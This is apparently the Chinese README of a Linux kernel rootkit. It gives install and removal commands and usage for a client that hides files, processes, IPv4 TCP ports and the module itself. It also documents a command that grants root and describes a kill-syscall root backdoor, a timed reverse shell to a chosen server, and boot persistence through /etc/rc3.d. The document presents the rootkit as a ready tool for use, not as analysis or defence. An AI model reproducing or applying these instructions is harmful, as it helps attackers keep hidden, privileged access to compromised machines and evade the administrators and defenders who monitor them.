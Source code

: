 # 说明文档

## 1. 安装Rootkit

```bash
sudo apt-get install linux-headers-$(uname -r)
chmod +x install.sh
sudo ./install.sh
```

## 2. 删除Rootkit

```bash
chmod +x remove.sh
sudo ./remove.sh
```

## 3. 文件结构

- client.c rootkit交互客户端
- install.sh 安装脚本
- remove.sh 卸载脚本
- Makefile 编译配置文件
- rootkit.c 源代码

## 1.3 使用方式

### 1.3.1 隐藏文件   

隐藏文件  
./client hide /etc/passwd  
显示文件  
./client unhide /etc/passwd  
可以隐藏除  /proc /run /dev /sys 以外目录的文件  

### 1.3.2 隐藏进程  

隐藏进程  
./client hideproc /proc/1  1这里就是你要隐藏的进程号  
显示进程  
./client unhideproc /proc/1 恢复隐藏的进程  

### 1.3.3 隐藏端口  

实现的是隐藏ipv4 tcp的端口  
隐藏端口  
./client hideport 22 隐藏22端口相关的信息  
显示端口  
./client unhideport 22 显示22端口相关的信息  

### 1.3.4 隐藏内核模块列表

编译client后，运行 ``./client show``可以隐藏lsmod中的模块信息  
再运行 ``./client show`` 会显示模块  
运行``./client hidesys /sys/module/rootkit``可以隐藏/sys/module下的对应模块目录  
运行``./client unhidesys /sys/module/rootkit``可以恢复/sys/module下的对应模块目录  

### 1.3.5 获取root权限

编译client后，运行 ``./client root``

## 1.4 实现功能及其原理

### 定时后门

考虑到内网机器，定时反弹Shell到指定服务器

### 隐藏内核模块列表

+ 断链法
+ 隐藏 /sys/module
+ 隐藏 /proc/modules

### Root后门

hook kill的syscall，当接受到特定信号的时候，给予对应的权限

### 开机自启

向 ``/etc/rc3.d`` 目录下增加加载内核模块的语法

